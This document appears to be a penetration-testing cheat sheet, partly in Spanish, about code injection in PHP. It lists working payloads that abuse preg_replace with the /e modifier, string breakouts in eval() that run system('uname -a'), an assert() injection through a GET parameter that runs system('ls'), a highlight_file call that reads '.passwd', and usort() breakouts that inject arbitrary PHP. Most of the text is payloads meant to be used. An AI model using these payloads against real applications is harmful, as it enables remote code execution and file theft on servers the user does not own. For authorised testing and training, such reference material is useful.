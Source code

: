 ### **Code execution using** **preg\_replace\(\)**

```php
preg_replace(pattern,replace,base)
preg_replace("/a/e","phpinfo()","whatever")
```

To execute the code in the "replace" argument is needed at least one match.  
This option of preg\_replace has been **deprecated as of PHP 5.5.0.**

### **Code execution with Eval\(\)**

```text
'.system('uname -a'); $dummy='
'.system('uname -a');#
'.system('uname -a');//
'.phpinfo().'
<?php phpinfo(); ?>
```

### **Code execution with Assert\(\)**

Esta función dentro de php permite ejecutar código que está escrito en un string con el objetivo de que se devuelva true o false \(y dependiendo de esto alterar la ejecución\). Por lo general se introducirá la variable del usuario entre medias de un string. Por ejemplo: assert\("strpos\($\_GET\['page'\]\),'..'\) === false"\) --&gt; En este caso el payload para ejecutar un comando podría ser:

```text
?page=a','NeVeR') === false and system('ls') and strpos('a
```

El caso es que hay que romper la query, ejecutar algo y volver a arreglarla \(para ello nos servimos del "and" o "%26%26" o "\|" --&gt; el "or", "\|\|" no funcionan pues si la primera es cierta deja de ejecutar y el ";" no funciona pues solo ejecuta la primera parte\).

**Other option** is to add to the string the execution of the command: _'.highlight\_file\('.passwd'\).'_

**Other option** \(if you have the internal code\) is to modify some variable to alter the execution: _$file = "hola"_

### **Code execution with usort\(\)**

This function is used to sort an array of items using an specific function.  
To abuse this function:

```php
<?php usort(VALUE, "cmp"); #Being cmp a valid function ?>
VALUE: );phpinfo();#

<?php usort();phpinfo();#, "cmp"); #Being cmp a valid function ?>
```

```php
<?php
function foo($x,$y){
    usort(VALUE, "cmp");
}?>
VALUE: );}[PHP CODE];#

<?php
function foo($x,$y){
    usort();}phpinfo;#, "cmp");
}?>
```
